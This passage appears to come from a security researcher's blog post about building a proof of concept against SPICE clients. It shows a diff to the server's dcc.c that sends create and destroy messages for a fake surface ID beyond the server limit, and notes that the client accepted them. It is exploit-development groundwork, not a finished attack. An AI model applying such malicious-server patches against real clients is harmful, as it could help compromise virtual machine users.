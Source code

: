 
## create/destroy surface

Looking at `spice.proto` the commands are `surface_create` and `surface_destroy`, so
the messages to look in the code are `SPICE_MSG_DISPLAY_SURFACE_CREATE` and
`SPICE_MSG_DISPLAY_SURFACE_DESTROY`. From these following the caller you can find
code in `dcc-send.c`, `dcc.c` and the `StreamChannel`. Ignoring for the PoC the
`StreamChannel`. The patch was pretty easy. Note that I used for the surface number
a surface over the server limit, this is not a problem for the client.

{% highlight diff %}
diff --git a/server/dcc.c b/server/dcc.c
index 6d16da0ec..1375509d5 100644
--- a/server/dcc.c
+++ b/server/dcc.c
@@ -30,6 +30,8 @@ G_DEFINE_TYPE(DisplayChannelClient, display_channel_client, TYPE_COMMON_GRAPHICS
 #define DISPLAY_CLIENT_SHORT_TIMEOUT 15000000000ULL //nano
 #define DISPLAY_FREE_LIST_DEFAULT_SIZE 128
 
+#define fake_surface_id NUM_SURFACES
+
 enum
 {
     PROP0,
@@ -311,6 +313,13 @@ void dcc_create_surface(DisplayChannelClient *dcc, int surface_id)
                                          surface->context.format, flags);
     dcc->priv->surface_client_created[surface_id] = TRUE;
     red_channel_client_pipe_add(RED_CHANNEL_CLIENT(dcc), &create->base);
+    if (surface_id == 0) {
+        create = red_surface_create_item_new(RED_CHANNEL(display),
+                                             fake_surface_id, surface->context.width,
+                                             surface->context.height,
+                                             surface->context.format, 0);
+        red_channel_client_pipe_add(RED_CHANNEL_CLIENT(dcc), &create->base);
+    }
 }
 
 // adding the pipe item after pos. If pos == NULL, adding to head.
@@ -745,6 +754,10 @@ void dcc_destroy_surface(DisplayChannelClient *dcc, uint32_t surface_id)
     dcc->priv->surface_client_created[surface_id] = FALSE;
     destroy = red_surface_destroy_item_new(surface_id);
     red_channel_client_pipe_add(RED_CHANNEL_CLIENT(dcc), &destroy->base);
+    if (surface_id == 0) {
+        destroy = red_surface_destroy_item_new(fake_surface_id);
+        red_channel_client_pipe_add(RED_CHANNEL_CLIENT(dcc), &destroy->base);
+    }
 }
 
 #define MIN_DIMENSION_TO_QUIC 3
{% endhighlight %}

Well, client did not complain.

